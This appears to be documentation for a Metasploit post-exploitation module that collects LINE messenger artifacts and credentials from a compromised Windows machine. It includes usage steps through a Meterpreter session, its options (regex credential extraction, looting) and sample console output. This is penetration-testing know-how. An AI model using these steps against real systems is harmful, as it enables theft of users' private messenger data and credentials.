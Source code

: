 ## Module Description

This post-exploitation module gathers artifacts found on LINE related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/line
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf post(windows/gather/line) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Line's parent folder found
[*] Line's *.png file found
[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\10020\6\animation\24348280.png
[*] Line 24348280.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513054823_default_192.168.56.106_line24348280.png_031858.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\1005\7\16188.png
[*] Line 16188.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513054824_default_192.168.56.106_line16188.png_166694.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\2000000\3\47976.png
[*] Line 47976.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513054824_default_192.168.56.106_line47976.png_270633.png

[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```

### Verbose Output
  ```
msf post(windows/gather/line) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Line's parent folder found
[*] Line's *.png file found
[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\10020\6\animation\24348280.png
[*] Line 24348280.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055412_default_192.168.56.106_line24348280.png_472404.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\1005\7\16188.png
[*] Line 16188.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055412_default_192.168.56.106_line16188.png_355604.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\2000000\3\47976.png
[*] Line 47976.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055412_default_192.168.56.106_line47976.png_481503.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\3059\1\765251.png
[*] Line 765251.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055413_default_192.168.56.106_line765251.png_881563.png

[*] Downloading C:\Users\IEUser\AppData\Local\LINE\Data\Sticker\3590\1\2872642.png
[*] Line 2872642.png downloaded
[+] File saved to:  /root/.msf4/loot/20210513055413_default_192.168.56.106_line2872642.png_628173.png


[-] This artifact does not support any extraction type
[*] PackRat credential sweep Completed
[*] Post module execution completed

```
